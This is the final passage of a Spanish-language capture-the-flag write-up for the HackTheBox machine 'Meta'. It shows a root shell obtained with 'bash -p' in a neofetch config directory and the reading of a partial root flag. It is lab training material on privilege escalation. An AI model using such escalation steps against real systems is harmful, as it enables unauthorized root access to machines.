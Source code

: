 ```bash
thomas@meta:~/.config/neofetch$ bash -p
bash-5.0# whoami
root
```

¡Logramos tener acceso como root! No queda nada más, vamos a acceder a la carpeta que contiene la flag y eso es todo.

```bash
bash-5.0# cd /root
bash-5.0# ls
conf  root.txt
bash-5.0# head -c 10 root.txt; echo
4dea5795d3
```

¡Hemos logrado completar la maquina `Meta` de HackTheBox!

<p align="center">
<img src="/assets/images/meta/06-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**

